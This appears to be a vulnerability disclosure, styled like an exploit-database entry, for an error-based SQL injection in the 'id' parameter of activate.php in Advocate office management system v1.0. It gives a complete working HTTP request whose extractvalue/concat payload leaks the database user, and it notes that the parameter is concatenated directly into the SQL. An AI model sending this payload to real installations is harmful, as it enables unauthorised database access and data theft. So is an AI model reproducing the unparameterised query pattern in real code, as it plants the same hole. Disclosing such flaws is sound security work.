


# Advocate office management system activate.php error-based SQL Injection Vulnerability

* **Exploit Title**: Advocate office management system activate.php error-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download
* **Version**: Advocate office management system v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Advocate office management system activate.php `id`​ parameter has an error-based SQL injection Vulnerability.

#### Payload used

```plaintext
GET /control/activate.php?id=1+AND+extractvalue%281%2Cconcat%28%27~%27%2C%28select+user%28%29%29%29%29 HTTP/1.1
Host: 192.168.56.128:8080
Cache-Control: no-cache
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=c44ka87dik7dcvd007quilufp2
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/control/login.php
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Priority: u=0, i
Pragma: no-cache
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Upgrade-Insecure-Requests: 1


```

## Proof of Concept

* Construct the post request package and send it to the activate.php. Successfully saw that user information existed in the response.

​​

* Upon reviewing the source code, it was discovered that the `id`​ parameter was directly concatenated into the SQL statement.

​​

‍
